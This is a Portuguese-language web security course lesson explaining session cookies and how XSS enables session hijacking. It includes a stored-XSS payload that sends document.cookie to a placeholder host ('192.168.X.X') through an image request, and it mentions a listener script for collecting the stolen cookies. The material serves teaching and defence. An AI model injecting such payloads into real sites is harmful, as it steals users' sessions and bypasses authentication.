 ## Cookies

![alt tag](https://github.com/fiapsecdevops/classroom/raw/master/content/pexels/sinmocx.jpg)

Toda conexão estabelecida entre o Cliente e o Servidor constitue uma **Sessão**, essa sessão é atribuida pelo servidor após execução do processo de conexão no formato "Three Way Handshake" comentado no começo do curso, possuindo uma numeração de identificação baseado em uma tabela chave valor armazenada no servidor, seu uso entre outras funções permite ao servidor identificar o usuário que esta executando a conexão. essa informação também é conhecida pelo Browser do usuária sendo recebida do servidor em uma resposta que chamamos de **Cookie**;

Podemos verificar a existência de Cookies de sessão inspecionando os elementos da Guia Network no acesso a qualquer página web:

![alt tag](https://github.com/fiapsecdevops/classroom/raw/master/content/images/7.2cookiesFiap)

Verifique que neste caso temos o item Cookie com um número de identificação da sessão. Esse número é único e assim será diferente para qualquer outra sessão aberta, faça teste executando o mesmo procedimento a partir de outro Brownser por exemplo ou em uma janela Anônima.

### O conceito de sequestro de sessão:

Ataques baseados em sequestro de sessão utilizam mecanismos de exploits baseados na tentativa de controle dos cookies e tokens de acesso em sessões de usuários, quando essas sessões envolvem autenticação prévia, ou seja roubando a sessão estamos executando um by pass na autenticação e recebendo acesso a páginas e conteúdos que supostamente só deveriam ser acessíveis aos usuários autenticados.

Um token de sessão é normalmente composto por uma string de largura variável e pode ser usado de diferentes maneiras, como na URL, no cabeçalho da requisição http como um cookie ( Modelo que vimos a pouco ), ou em outras partes do cabeçalho ou corpo da requisição http.

Utilizando código JavaScript um Cookie de sessão pode ser obtindo da seguinte forma:

```sh
<script>
alert(document.cookie);
</script>
```

> Neste caso trata-se do Cookie de sua própria sessão o que ainda não configura um processo de sequestro de sessão propriamente dito;

***Como o XSS se relaciona ao Sequestro de Sessão?***

O ponto onde o Cookie de sessão e a exploração de XSS baseado em Javascript se encontram é exatamente no resgate e envio dessa informação a terceiros, uma vez que um usuário esteja em uma área autenticada, o cookie de sessão é uma informação preciosa que utilizado da maneira certa permitiria o acesso ao conteúdo autenticado "simulando" estar na sessão do usuário, Existem certas formas de obter essa informação o principio basico por trás da maioria delas é forçar a execução de código pelo Browser do usuário de forma que o próprio usuário entregue a informação sem perceber;

***Demonstração de roubo de sessão:*** 

No exemplo abaixo utilizaremos uma imagem como base para conseguir isso, essa imagem será seguida pela requisição de acesso ao cookie do usuário:

```sh
Hi Everone...
<script>
var imagem=new Image();
imagem.src="http://192.168.X.X?"+document.cookie;
</script>
```

Na demonstração acima temos o campo "http://192.168.X.X" com endereço do host que receberá o cookie enviado pelo browser e a propriedade ***?"+[document.cookie](https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie)*** utilizada para recuperar o cookie associado a sessão no momento em que executamos um GET no conteúdo do blog;

> Para que alguma ação baseada no conceito acima seja bem sucedida será necessário que no endereço de destino o host seja preparado para receber a informação enviada pelo brownser dos usuários que acessaram a página com o código XSS implementado, isso pode ser feito de "N" formas, usando webservers ou aplicações simples como um [script python](https://github.com/fiapfiap/Sec/blob/master/scripts/listen.py);

# Material de Referência

Boa parte dessa aula baseia-se em uma publicação de Prakhar Prasad pela editora Packt:

* [Livro, Mastering Modern Web Penetration Testing](https://www.packtpub.com/networking-and-servers/mastering-modern-web-penetration-testing)


O curso da [Alura]() sobre Segurança Web apresenta alguns conceitos muito legais sobre sequestro de sessão e XSS usando como base a plataforma OWASP:

* [Curso Segurança Web: Vulnerabilidades do seu sistema e OWASP
](https://cursos.alura.com.br/course/seguranca-web-vulnerabilidades-do-seu-sistema)


Detalhamento Técnico sobre a propriedade document.cookie fornecida pelo MDN:

* [Document.cookie](https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie)

---

**Free Software, Hell Yeah!**
